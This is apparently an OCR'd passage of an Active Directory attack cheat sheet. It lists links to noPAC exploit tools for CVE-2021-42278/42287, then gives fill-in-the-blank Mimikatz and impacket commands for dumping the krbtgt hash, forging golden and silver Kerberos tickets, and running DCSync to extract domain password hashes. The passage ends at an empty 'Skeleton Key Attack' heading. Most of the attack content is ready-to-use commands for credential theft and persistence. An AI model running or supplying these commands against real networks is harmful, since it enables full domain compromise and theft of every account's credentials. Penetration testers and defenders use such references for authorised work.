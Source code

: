 ### No PAC

- [sAMAccountname Spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing) Exploitation of CVE-2021-42278 and CVE-2021-42287
- [Weaponisation of CVE-2021-42287/CVE-2021-42278](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) Exploitation of CVE-2021-42278 and CVE-2021-42287
- [noPAC](https://github.com/cube0x0/noPac) C# tool to exploit CVE-2021-42278 and CVE-2021-42287
- [sam-the-admin](https://github.com/WazeHell/sam-the-admin) Python automated tool to exploit CVE-2021-42278 and CVE-202142287
- [noPac](https://github.com/Ridter/noPac) Evolution of "sam-the-admin" tool

# Domain Persistence 1

### Golden Ticket Attack

#Execute mimikatz on DC as DA to grab krbtgt hash:

Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>

#On any machine:

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:

<HashOfkrbtgtAccount> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

### DCsync Attack

#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DSReplication-Get-Changes-All privileges):

Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'

#DCsync using secretsdump.py from impacket with NTLM authentication secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm

#DCsync using secretsdump.py from impacket with Kerberos Authentication secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm

**Tip:**

/ptt -> inject ticket on current running session

/ticket -> save the ticket on the system for later use

### Silver Ticket Attack

Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:

<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"' [SPN List](https://adsecurity.org/?page_id=183)

### Skeleton Key Attack

